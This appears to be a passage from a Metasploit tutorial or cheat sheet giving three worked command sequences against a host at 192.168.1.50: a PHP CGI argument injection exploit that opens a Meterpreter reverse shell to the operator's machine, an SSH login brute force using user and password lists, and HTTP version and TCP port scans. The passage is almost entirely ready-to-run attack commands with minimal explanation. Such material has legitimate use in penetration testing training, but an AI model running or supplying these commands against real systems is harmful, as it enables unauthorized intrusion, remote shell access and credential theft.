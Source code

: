 ### Example 2: Web Application Exploitation (PHP CGI)
```bash
msfconsole

# Use PHP CGI argument injection module
msf > use exploit/multi/http/php_cgi_arg_injection

# Configure for target web server
msf > set RHOSTS 192.168.1.50        # Web server IP
msf > set TARGETURI /index.php      # Target script path
msf > set PAYLOAD php/meterpreter/reverse_tcp

# Set listener and run exploit
msf > set LHOST 192.168.1.100       # Your IP for reverse connection
msf > exploit -j                    # Run in background
```

### Example 3: SSH Brute Force with Auxiliary Module
```bash
# Use auxiliary brute force module for SSH
msfconsole

msf > use auxiliary/scanner/ssh/ssh_login

# Configure credentials and target
msf > set RHOSTS 192.168.1.50        # Target IP
msf > set USER_FILE /path/to/userlist.txt   # User list file
msf > set PASS_FILE /path/to/passlist.txt   # Password list file

# Set additional options
msf > set STOP_ON_SUCCESS true      # Stop after first success
msf > set THREADS 5                 # Number of concurrent threads

# Run the scanner
msf > run                         # Execute the module
```

### Example 4: HTTP Enumeration (Nikto Style)
```bash
# Use auxiliary modules for web enumeration
msfconsole

# Enumerate HTTP services
msf > use auxiliary/scanner/http/http_version

# Configure options for web scanning
msf > set RHOSTS 192.168.1.50        # Target IP
msf > set THREADS 3                 # Concurrency level
msf > run                         # Execute module

# Scan for open ports and services
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 192.168.1.50        # Target IP
msf > set PORTS 1-1000              # Port range to scan
msf > run                         # Execute port scanner
```
